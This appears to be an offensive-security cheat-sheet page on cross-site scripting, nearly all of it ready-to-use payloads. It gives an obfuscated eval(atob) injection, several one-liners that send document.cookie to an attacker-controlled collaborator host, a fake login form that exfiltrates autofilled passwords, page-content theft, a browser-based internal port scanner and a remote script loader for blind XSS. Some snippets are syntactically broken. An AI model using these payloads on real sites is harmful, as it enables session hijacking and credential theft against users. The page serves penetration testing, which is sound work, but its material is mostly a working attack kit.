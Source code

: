 ```yaml
---
title: XSS
description: Cross-site scripting (XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application.
badge: Web
---
```



## Examples

### Injections

```html
"><input onfocus=eval(atob(this.id)) id={{ xss-payload alert(1) } b64 } autofocus>
```

### Exploitation

#### Steal cookies

```js
fetch('https://{{ collaborator your.burpcollaborator.net }}', {method: 'POST', mode: 'no-cors', body:document.cookie})
```

```js
var xhttp = new XMLHttpRequest(); xhttp.open("GET", "http://{{ collaborator your.burpcollaborator.net }}/?c=" + document.cookie, true);xhttp.send();
```

```js
navigator.sendBeacon('https://{{ collaborator your.burpcollaborator.net }}/',document.cookie)
```

```html
<img src=x onerror="this.src='http://{{ collaborator your.burpcollaborator.net }}/?c='+document.cookie">
```

#### Capture password auto-fill

```html
<b>Username:</b><br>
<input name=username id=username>
<b>Password:</b><br>
<input type=password name=password onchange="if(this.value.length)fetch'https://{{ collaborator your.burpcollaborator.net }}',{method:'POST', mode: 'no-cors', body:username.value+':'+this.value});">
```

#### Steal Page Content

```js
var url = "{{ target-url http://localhost:8000/info/me }}";
var attacker = "https://{{ collaborator your.burpcollaborator.net }}";
var xhr  = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
    }
}
xhr.open('GET', url, true);
xhr.send(null);
```

#### Port Scanning

```js
const checkPort = (port) => { fetch(http://localhost:${port}, { mode: "no-cors" }).then(() => { let img = document.createElement("img"); img.src = https://{{ collaborator your.burpcollaborator.net }}/ping?port=${port}; }); } for(let i=0; i<1000; i++) { checkPort(i); }
```

## Blind XSS

### XSS Hunter

#### Custom XSS Hunter payloads

```js
var a=document.createElement("script");a.src="https://{{ xss-hunter-username your-username }}.xss.ht";document.body.appendChild(a);
```

## Bypass WAF

![Mutation points in a tag for WAF bypass](/web_client_xss_a_mutation_points.jpg)

## Angular.js
